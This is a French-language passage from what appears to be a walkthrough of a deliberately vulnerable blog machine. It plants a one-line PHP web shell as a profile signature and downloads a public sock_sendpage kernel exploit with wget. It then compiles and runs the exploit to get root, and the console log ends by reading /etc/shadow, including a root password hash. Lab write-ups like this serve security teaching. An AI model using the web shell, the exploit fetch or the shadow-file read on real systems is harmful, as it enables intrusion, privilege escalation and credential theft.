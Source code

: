 Comme signature, on mettra un code très classique :  

```php
<?php system($_GET["cmd"]); ?>
```

On a maintenant notre première backdoor à cette adresse : `/profiles/blogger-sig.php?cmd=commande`  

Ensuite on rapatrie une backdoor plus évoluée avec support du terminal.  

K is for Kernel, L is for Linux, O is for Old, P is for Pwnable
---------------------------------------------------------------

Tentons d'obtenir un accès root. Le kernel est ancien (2.6.8-2-386) donc ça devrait être aisé. On trouve [un exploit pour une faille dans sock\_sendpage](http://www.exploit-db.com/exploits/9479/) qui fait l'affaire :  

```console
sh-2.05b$ wget -O socksend.c http://www.exploit-db.com/download/9479
--08:41:48--  http://www.exploit-db.com/download/9479
           => `socksend.c'
Resolving www.exploit-db.com... 192.99.12.218, 198.58.102.135
Connecting to www.exploit-db.com[192.99.12.218]:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://www.exploit-db.com/download/9479/ [following]
--08:41:49--  http://www.exploit-db.com/download/9479/
           => `socksend.c'
Connecting to www.exploit-db.com[192.99.12.218]:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3,509 [application/txt]

100%[==============================================================>] 3,509         --.--K/s             

08:41:49 (744.79 KB/s) - `socksend.c' saved [3509/3509]

sh-2.05b$ gcc -o socksend socksend.c 
sh-2.05b$ ./socksend 
Segmentation fault
sh-2.05b$ ./socksend 
[-] check ur uid
sh-2.05b$ id
uid=0(root) gid=0(root) groups=33(www-data)
sh-2.05b$ ls /root/
dbootstrap_settings  install-report.template  vuln-blog.tgz
sh-2.05b$ head /etc/shadow
root:$1$NTiT03rp$/kR5dsGRNA3UX7/6MbFEl/:14964:0:99999:7:::
daemon:*:14880:0:99999:7:::
bin:*:14880:0:99999:7:::
sys:*:14880:0:99999:7:::
sync:*:14880:0:99999:7:::
games:*:14880:0:99999:7:::
man:*:14880:0:99999:7:::
lp:*:14880:0:99999:7:::
mail:*:14880:0:99999:7:::
news:*:14880:0:99999:7:::
sh-2.05b# locate -i phrack
locate: /var/cache/locate/locatedb: No such file or directory
sh-2.05b# updatedb
sh-2.05b# locate -i phrack
/home/testuser/stuff/phrack67.tar.gz
```
